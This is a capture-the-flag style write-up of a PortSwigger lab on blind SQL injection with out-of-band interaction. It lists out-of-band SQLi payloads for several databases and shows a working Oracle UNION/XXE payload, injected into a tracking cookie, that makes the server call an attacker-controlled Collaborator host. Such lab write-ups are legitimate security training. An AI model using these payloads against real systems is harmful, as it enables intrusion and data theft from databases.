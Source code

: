# Blind SQL injection with out-of-band interaction
[Lab URL](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)

 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator. 

## Hint from [SQLi cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

![image](https://user-images.githubusercontent.com/83407557/208315638-3c599306-85d0-4a60-a239-944c7f3909ee.png)


# Step 1 gather info
(note the pro version of burp is needed to complete this lab :/ sorry I don't make the rules)

For this lab all that is needed is to trigger a DNS query to a server we controll. This has to be done via the burp-collaborator due to firewall restrictions on the server. To get my url, I go to the collaborator tab and clip copy to clipboard:
![image](https://user-images.githubusercontent.com/83407557/208317137-4d8abf6b-11fa-4dc9-a340-6982e23742d7.png)

url: gm6ytjrk7u69jrwzny8ft5efm6sxgu4j.oastify.com


Next I will take the payloads from the cheatsheet
```sql
--oracle
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
--patched oracle
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN') 
--Microsoft
exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a' 
--PostgreSQL
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN' 
--MySQL
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```
# Step 2 create payloads

Okay, I am going to build a payload for each sql version and see which one I can get to callback. Keep in mind that they above payloads are actual sql queries, to make them injectable we are going to need to add `'<payload--` to escape the query and comment out the rest of the query. Ontop of that we need a way to combine it with the previous query either with `||` or a `UNION` statement. This makes the actual payload"

```sql
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://gm6ytjrk7u69jrwzny8ft5efm6sxgu4j.oastify.com/"> %remote;]>'),'/l') FROM dual--
```

# Use oracle payload with burp

Having the payload, I then intercept the request using burp:

![image](https://user-images.githubusercontent.com/83407557/208317897-e3e990cc-7db0-4fd6-8acc-15fda4b882fd.png)

I then send the request to repeater and insery my payload into the trackingid cookie:

![image](https://user-images.githubusercontent.com/83407557/208317933-6920bac8-9c99-46a3-96c5-e7948579688d.png)

Before sending the payload, I hit `CTRL+U` to url encode it:

![image](https://user-images.githubusercontent.com/83407557/208317987-d3589c36-a19c-4a18-a5c0-55646caee445.png)

# Getting a DNS callback

Then checking back in the collaborator tab, I hit poll now, and see that a DNS request was made:

![image](https://user-images.githubusercontent.com/83407557/208318021-09013204-5404-42cb-a480-d31338168be6.png)

checking the lab page back in my browser, I see the lab has been solved:

![image](https://user-images.githubusercontent.com/83407557/208318058-a638254f-2ec0-4088-9dfe-84f03e12fa43.png)



